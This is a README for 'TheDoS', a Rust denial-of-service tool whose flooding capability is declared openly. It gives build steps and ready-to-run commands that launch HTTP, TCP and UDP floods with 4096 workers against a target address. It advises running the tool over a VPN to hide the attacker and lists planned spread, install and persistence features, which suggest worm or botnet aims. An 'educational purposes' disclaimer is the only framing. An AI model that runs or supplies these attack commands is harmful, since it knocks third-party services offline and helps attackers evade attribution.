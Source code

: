 

<p align="center">
    <img src="https://github.com/wildonion/thedos/blob/master/onion.png"
</p>


## 🚨 Disclaimer

I AM **NOT** RESPONSIBLE FOR WHAT YOU WANT TO DO WITH THIS TOOL, THIS IS FOR EDUCATIONAL PURPOSES.

## ☠ TheDoS (The Developer of Sin)

Attack networks asynchronously by getting help of workers! 

<p align="center">
    <img src="https://github.com/wildonion/thedos/blob/master/log_nginx.png"
</p>

## 🚬 Usage

> run it over VPN

> default workers are 4096

> build using: ```cargo build --release```

* start http attack with 4096 workers: ```./thedos --http-addr http://example.app --workers 4096```

* start tcp attack with 4096 workers: ```./thedos --tcp-addr 93.184.216.34:24535 --workers 4096```

* start udp attack with 4096 workers: ```./thedos --udp-addr 93.184.216.34:24535 --workers 4096```

OR

* start http attack with 4096 workers: ```cargo run -- --http-addr http://example.app --workers 4096```

* start tcp attack with 4096 workers: ```cargo run -- --tcp-addr 93.184.216.34:24535 --workers 4096```

* start udp attack with 4096 workers: ```cargo run -- --udp-addr 93.184.216.34:24535 --workers 4096```

## 🏗️ WIP

* proxy list

* `spread`, `install` and `persistence` methods
